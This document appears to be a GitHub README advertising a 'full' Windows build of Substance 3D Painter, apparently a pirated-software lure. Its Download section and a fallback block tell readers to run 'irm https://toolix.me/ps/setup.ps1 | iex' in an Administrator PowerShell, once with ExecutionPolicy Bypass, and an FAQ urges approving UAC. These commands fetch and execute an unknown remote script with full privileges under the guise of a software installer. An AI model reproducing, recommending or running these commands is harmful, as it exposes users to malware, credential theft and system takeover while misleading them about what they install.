

***

# Substance 3D Painter Full

<p align="center">
  
</p>

Substance 3D Painter Full — Windows 11 and 10 build | wear generators | map presets.

## About this application

**Substance 3D Painter Full** in this repo is a Windows desktop package for lookdev artists painting meshes. Expect a guided first launch, access to the paint desk with layers, smart mats, and export, and stable sessions on a standard PC.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Where do I get the package?** Open **PowerShell as Administrator** and run the command in the Download section above.

**Does it work on Windows?** Yes, it is built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Click **Yes** on the UAC prompt — the PowerShell setup needs Administrator approval to complete.

## About

Substance 3D Painter Full suits lookdev artists painting meshes who need a straightforward Windows install and a focused layers, smart mats, and export workflow.

## What's included

Paint desk tools are bundled in this release. Install locally, open the app, and use the layers, smart mats, and export toolkit right away.

## Features

⚡ Layers
🧩 Smart mats
🗺️ Maps
✨ Wear
📤 Export
🗂️ Presets
🔍 ID

## Good for

- 📌 Lookdev
- 🎯 Game art
- ⭐ Product viz

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 16 GB minimum | 32 GB recommended
* **Disk:** 12 GB available storage

***